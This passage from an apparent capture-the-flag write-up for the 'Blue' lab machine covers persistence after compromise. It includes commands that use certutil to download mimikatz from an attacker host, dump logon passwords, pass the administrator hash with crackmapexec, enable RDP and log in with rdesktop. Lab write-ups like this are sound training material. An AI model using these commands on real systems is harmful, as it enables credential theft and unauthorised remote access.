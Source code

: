 If I transfer the original unmodified `mimikatz.exe` binary to the victim machine and run it, I have no problems. I can leak sensitive information from the **administrator** account, so the problem with the custom `mimikatz.exe` is that I did not generate it correctly. But another way to achieve persistence is to enable the **Remote Desktop Protocol** (**RDP**) with the `crackmapexec` **rdp** module, with `netstat` I check that it was not enabled, but then with the credentials that I have of the administrator user I can enable it successfully. Now with `rdesktop` I can connect with the password of the **administrator** user that I leaked with `mimikatz.exe`.

> **Victime Machine**:

```cmd
certutil.exe -f -urlcache -split http://10.10.14.84/mimikatz.exe
mimikatz.exe                              # :)
  token::elevate
  sekurlsa::logonPasswords

netstat -ano
# Port 3389 RDP disable
```

> **Attacker Machine**:

```bash
# 5th Persistence Method
crackmapexec smb 10.129.97.111 -u 'Administrator' -H 'cdf51b162460b7d5bc898f493751a0cc'
crackmapexec smb 10.129.97.111 -u 'Administrator' -H 'cdf51b162460b7d5bc898f493751a0cc' -M rdp -o action=enable
```

> **Victime Machine**:

```cmd
netstat -ano
# Port 3389 RDP disable :(
```

> **Attacker Machine**:

```bash
crackmapexec smb 10.129.97.111 -u 'Administrator' -p 'ejfnIWWDojfWEKM'
crackmapexec smb 10.129.97.111 -u 'Administrator' -p 'ejfnIWWDojfWEKM' -M rdp -o action=enable
```

> **Victime Machine**:

```cmd
netstat -ano
# 0.0.0.0:3389        :)
```

> **Attacker Machine**:

```bash
rdesktop 10.129.97.111 -u 'Administrator' -p 'ejfnIWWDojfWEKM' -d WORKGROUP
#  yes
```

<br />
<img src="{{ site.img_path }}/blue_writeup/Blue_42.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/blue_writeup/Blue_43.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/blue_writeup/Blue_44.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/blue_writeup/Blue_45.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/blue_writeup/Blue_46.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />